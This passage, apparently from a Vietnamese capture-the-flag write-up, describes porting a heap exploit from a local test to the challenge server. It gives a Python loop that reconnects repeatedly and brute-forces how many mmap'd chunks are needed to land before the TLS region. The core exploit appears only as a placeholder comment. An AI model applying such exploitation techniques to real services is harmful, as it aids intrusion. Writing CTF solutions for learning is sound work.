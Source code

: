 Chạy thử và nó đã chạy thành công trên local.

![image](https://user-images.githubusercontent.com/57558487/196614760-1061d1b9-b1b9-4d90-8db0-a60adcb435ca.png)

### Edit payload to work with server side

Khi giải thành công trên local thì mình hí hửng đem lên chạy server ngay. Nghĩ bụng là có được flag ngon cơm rồi. Tuy nhiên mình lại gặp thêm một rắc rối nữa.

Số lượng `mmap(0x2000)` cần trước khi tạo được chunk nằm trước `tls` trên server là khác nhau. Mặc dù tác giả cho cả `libc` lẫn `ld`, vẫn có sự khác biệt khi chạy trên máy mình và chạy trên server. Trên máy mình cần tạo 2 chunk để có được offset như phía trên, trên server thì cần nhiều hơn. Lúc này mình lục lại đề và dùng docker ubuntu 22 chạy thử và tìm offset, tuy nhiên vẫn không chính xác, cuối cùng mình đã dùng một trick khác là brute đến khi nào đúng offset :)))

Mình edit lại code như sau:

```python
t, n = 0, 1

while True:
	try: 
		s = conn()

		print(n)

		for i in range(n):
			create(10, 0x2000, b'A\n')
		create(0, 0x2000, b'A\n')

		if t == 3:
			n += 1
			t = 0
		else:
			t += 1

		# exploit code

		break

	except KeyboardInterrupt:
		s.close()
		exit(0)
	except:
		s.close()

s.interactive()
```

Vì điều kiện mạng khá tệ nên mình quyết định thử mỗi giá trị 3 lần, đến khi n == 3, thì server trả về thành công :)))

## Exploit
